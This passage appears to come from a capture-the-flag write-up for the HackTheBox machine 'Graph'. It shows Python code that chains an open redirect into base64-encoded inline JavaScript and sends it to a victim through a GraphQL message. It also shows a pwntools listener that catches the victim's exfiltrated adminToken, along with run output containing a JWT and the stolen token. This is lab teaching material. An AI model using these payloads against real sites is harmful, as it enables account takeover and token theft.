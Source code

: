 This malicious URL contains inline JavaScript because it abuses an Open Redirect vulnerability. This is relevant because the JWT token must be sent as a cookie and it has `httpOnly` set to true, so the requests must be performed from the same domain so that cookies flow with the request.

To enter a large JavaScript code as inline JavaScript in the URL, we can encode it in Base64 and send it as ``javascript:eval(atob`<base64-data>`)``. So here's the GraphQL mutation with all the previous things:

```python
    csrf_payload = f'javascript:eval(atob`{b64e(js_payload.encode()).strip("=")}`)'

    s.post(f'{URL}/graphql', headers=HOST, json={
        'variables': {
            'to': f'{victim_user.lower()}@graph.htb',
            'text': f'http://graph.htb/?redirect={csrf_payload}'
        },
        'query': '''
            mutation sendMessage($to: String!, $text: String!) {
                sendMessage(to: $to, text: $text) {
                    __typename
                }
            }
        '''
    })
```

To retrieve the `adminToken`, we can use `listen` from `pwntools` to receive connections on port 80 and extract the `adminToken`:

```python
    http = listen(80)
    http.wait_for_connection()
    admin_token = http.recvuntil(b'HTTP').split()[1][1:].decode()
    http.close()

    log.success(f'adminToken: {admin_token}')
```

Here we have an example of execution:

```console
$ python3 get_admin_token.py
[+] Logged in as rocky (password: asdffdsa)
[*] JWT token: eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJpZCI6IjYyZTdhNmRmNGUyOThkMDQzNGRkMWZjMyIsImVtYWlsIjoicm9ja3lAZ3JhcGguaHRiIiwiaWF0IjoxNjU5MzQ5MTMwLCJleHAiOjE2NTk0MzU1MzB9.buvUeGkubEoMwDRN-aoH28l2ynIVjdX1HXInWK4mPrM  
[*] Own user ID: 62e7a6df4e298d0434dd1fc3
[+] Victim's ID: 62e7a42181fe151459e90ea6
[+] Trying to bind to :: on port 80: Done
[+] Waiting for connections on :::80: Got connection from ::ffff:10.10.11.157 on port 34196
[*] Closed connection to ::ffff:10.10.11.157 port 34196
[+] adminToken: c0b9db4c8e4bbb24d59a3aaffa8c8b83
```

### `extract_id_rsa.py`

